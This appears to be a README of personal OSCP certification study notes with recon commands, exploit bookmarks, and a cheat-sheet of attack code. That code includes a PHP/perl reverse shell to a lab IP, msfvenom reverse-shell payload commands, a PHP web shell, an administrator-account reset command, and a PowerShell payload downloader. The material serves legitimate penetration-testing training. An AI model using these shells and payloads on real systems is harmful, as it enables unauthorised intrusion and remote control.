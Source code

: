 # OSCP Notes
My notes on OSCP

### Lab Notes
Setup a good folder/file naming structure to organize your work. I have three main folders:
- exploits: work-in-progress info
    - host1
    - host2
    - _recon: network-wide scans data
- network1: contains finished hosts under network1 (moved from exploits directory)
- network2: contains finished hosts under network2
- reports


Setup shell aliases for connecting to OVPN & Windows machine
Under `.bashrc` in Kali
```
cd
lab="openvpn YOUR_OVPN_FILE.ovpn"
win="rdesktop -u username -p password 1.2.3.4"
source .bashrc
```

### Kali-specific Notes
Search exploits
```
searchsploit wordpress escalation
...snip...
cp /usr/share/exploitdb/exploits/php/webapps/12345.txt ./
````

### Recon
NMAP
```bash
nmap -A -T4 --script vulners -oN out.nmap {TARGETS}
```

Target a specific type of scripts with wildcards (e.g. smb*)
```bash
nmap -T4 --script ftp* -p 21 -oN out.nmap {TARGETS}
```

Add addtional vulnerability scanning capability to NMAP

[Vulners](https://github.com/vulnersCom/nmap-vulners)

### Web

[Gobuster Package Description](https://tools.kali.org/web-applications/gobuster)
Example
```bash
gobuster -k -e -u https://{URL} -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

[CODE INJECTION IN MONGODB](https://www.objectrocket.com/blog/mongodb/code-injection-in-mongodb/)

[Exploiting PHP File Inclusion](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)

## Useful Tools / Cheatsheets
Handy tools/cheatsheets for lab

MS17-010
[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)

msfvenom *replaced msfpayload in older articles*
[Msfvenom Cheat Sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)

CrackMapExec
[CrackMapExec - Cheatsheet](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

dirtyCow - handy Linux privilege escalation vuln
[firefart/dirtycow](https://github.com/FireFart/dirtycow)

## Useful Bookmarks
How-Tos

### Windows
[Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
[AutoBlue](https://0xdf.gitlab.io/2019/02/22/wl-dummy.html)

## Credential
[Getting the goods with CrackMapExec: Part 1](https://byt3bl33d3r.github.io/getting-the-goods-with-crackmapexec-part-1.html)
[Practical Usage of NTLM Hashes](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/)

### MySQL
[GAINING A ROOT SHELL USING MYSQL USER DEFINED FUNCTIONS AND SETUID BINARIES](https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/)

### Oracle
[Variations in Exploit methods between Linux and Windows](https://www.blackhat.com/presentations/bh-usa-03/bh-us-03-litchfield-paper.pdf)

### Metasploit
[Deep Dive Into Stageless Meterpreter Payloads](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
[Offensive Msfvenom: From Generating Shellcode to Creating Trojans] (https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)

### Java
[Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
[Java RMI](https://github.com/JoyChou93/java-sec-code/wiki/Java-RMI)

### Shell Code
[0x7 Exploit Tutorial: Bad Character Analysis](http://www.primalsecurity.net/0x7-exploit-tutorial-bad-character-analysis/)
```python
bad_chars = ""
bad_chars += "x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10"
bad_chars += "x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20"
bad_chars += "x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30"
bad_chars += "x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40"
bad_chars += "x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50"
bad_chars += "x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60"
bad_chars += "x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70"
bad_chars += "x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80"
bad_chars += "x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90"
bad_chars += "x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0"
bad_chars += "xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0"
bad_chars += "xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0"
bad_chars += "xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0"
bad_chars += "xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0"
bad_chars += "xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0"
bad_chars += "xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"
```

### Buffer Overflow Practice
Lots of scripts on github but I would recommend setup XP/Win7 box (and Immunity debugger/Mona) and practice

MiniShare 1.4.1
[MiniShare 1.4.1 - Remote Buffer Overflow (1)](https://www.exploit-db.com/exploits/616)
Software
[MiniShare 1.4.1](https://www.google.com/search?q=minishare-1.4.1.zip)


## Reverse Shell
PHP calls perl for reverse shell (quotes must be escaped properly - test it locally first!)
```php
<?php
$cmd = "perl -e 'use Socket;\$i=\"10.11.0.90\";\$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'";
shell_exec($cmd);
?>
```

WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= {IP} LPORT= {PORT} -f war > shell.war
```

EXE
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.90 LPORT=6666 -f exe -a x86 --platform win -o shell86.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST= {IP} LPORT= {PORT} -f exe -a x64 --platform win -o shell64.exe
```

## Web Shell
PHP
```php
<?php echo shell_exec($_GET["cmd"]); ?>
```

## Post-Exploitation

### Windows
Reset/activate account
```powershell
net user administrator /active:yes password123
```

WGET Replacement on Windows (echo/append each line to a script. E.g. wget.ps1)
```powershell
$storageDir=$pwd
$webclient=New-Object System.Net.WebClient
$url="http://{IP}/shell64.exe"
$file="shell64.exe"
$webclient.DownloadFile($url,$file)

c:\Users\Administrator\Desktop>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Exam related links
[A Script Kiddie’s guide to Passing OSCP on your first attempt](https://forum.hackthebox.eu/discussion/1730/a-script-kiddie-s-guide-to-passing-oscp-on-your-first-attempt)

[Pentest Book](https://chryzsh.gitbooks.io/pentestbook/content/list_of_common_ports.html)
[Upgrade from LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
